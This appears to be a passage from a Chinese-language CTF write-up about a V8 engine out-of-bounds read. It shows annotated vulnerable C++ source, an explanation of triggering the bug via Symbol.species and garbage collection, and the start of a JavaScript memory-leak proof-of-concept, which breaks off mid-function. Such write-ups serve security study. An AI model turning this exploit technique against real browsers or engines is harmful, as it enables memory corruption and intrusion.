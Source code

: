 ```cpp
        if (!elements->is_the_hole(j)) {
                                                                // （快）
          double double_value = elements->get_scalar(j);        // 这里直接读取了对应内存位置上的值，
                                                                // 若 length 被中途改变会导致越界读（OOB read）               
          Handle<Object> element_value = isolate->factory()->NewNumber(double_value);
          if (!visitor->visit(j, element_value)) return false;
        } 

        else {
          Maybe<bool> maybe = JSReceiver::HasElement(array, j); // （慢）
          if (maybe.IsNothing()) return false;
          if (maybe.FromJust()) {
            // Call GetElement on array, not its prototype, or getters won't
            // have the correct receiver.
            Handle<Object> element_value;
            ASSIGN_RETURN_ON_EXCEPTION_VALUE(
                isolate, element_value,
                JSReceiver::GetElement(isolate, array, j), false);              // 若对应位置为 hole 的话会用 JSReceiver::GetElement 去读，
                                                                // 与上面分支不同的是，这里不是直接获得对应内存位置上的值
                                                                // 而是会去调用 getter，这里有执行 js 代码的机会
            if (!visitor->visit(j, element_value)) return false;
          }
        }
      });
      break;
    }
```

--------

#### 漏洞验证以及内存泄漏

漏洞成因如上，接下来考虑如何触发：

对于有 js 基础的选手可以想到（没有相关经历的选手也可以通过搜索得到）[`Symbol.species`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Symbol/species) 和 [`Object.prototype.valueOf()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/valueOf) 的结合使用，实现以下操作：

- 在访问某个数组元素时触发 callback 来缩小数组的长度

- 触发 garbage collection

    - 原本紧跟在数组元素后的内存内容被复制到数组元素的位置上
    - *在内存大小不同的情况下 gc 的表现会有区别，这也是为什么增加运行参数 `--max-heap-size 1024`*

- 此时就实现了内存越界读，即内存泄漏，代码如下（所有测试代码都在 [`src/poc.js`](src/poc.js) 中，使用 `executable_d8/d8 --allow-natives-syntax --expose-gc --max-heap-size 1024 poc.js` 运行）：

```js
function leak_0() {
// 根据上述思路实现内存泄漏
    // Symbol.species 返回 vulnA
    class vulnArray extends Float64Array {}
    var vulnA = new vulnArray(0x1337);
    vulnA.__defineSetter__("length", function() {});
    class myArray extends Array {
        static get [Symbol.species]() {
            return function() {
                return vulnA;
            }
        };
    }

    var corruptA = new myArray(0x50);
    corruptA.fill(4.3);
```